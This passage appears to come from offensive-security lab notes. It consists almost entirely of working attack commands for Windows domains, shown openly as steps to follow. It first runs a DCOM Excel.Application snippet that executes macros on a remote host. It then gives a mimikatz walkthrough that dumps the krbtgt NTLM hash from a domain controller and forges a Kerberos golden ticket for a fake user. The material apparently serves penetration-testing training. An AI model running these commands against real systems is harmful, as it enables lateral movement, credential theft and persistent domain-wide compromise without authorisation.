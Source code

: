 ```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.194.5"))

$Path = "\\172.16.194.5\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")
$com.Run("Workbook_Open")
$com.Run("mOaoZH8")
$com.Run("AutoOpen")
```

### Creating a golden ticket to psexec on domain controller

Go into the domain controller and grab the NTLM hash

```powershell
# On the domain controller:
C:\Tools>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May 13 2019 01:35:04
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : fc274a94b36874d2560a7bd332604fab
```

Now on the workstation:

Find the SID first using `whoami /user` without the last part after the `-`.
```powershell
C:\Tools>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May 13 2019 01:35:04
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
```
